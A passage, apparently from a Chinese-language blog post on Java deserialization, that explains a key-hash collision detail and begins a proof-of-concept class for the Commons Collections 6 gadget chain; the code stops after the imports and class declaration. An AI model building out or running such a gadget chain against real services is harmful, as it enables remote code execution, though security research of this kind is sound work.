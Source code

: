 因此 key 为`aaa`和`keyTest`的值完全不同，导致了最后 i 分别为 0 和 4
![image-20221008175056295](images/image-20221008175056295.png)

![image-20221008175106525](images/image-20221008175106525.png)

因此修改最终 POC为：
```java
package com.serialize;

/**
 * Created by dotast on 2022/10/4 21:55
 */

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections6 {
```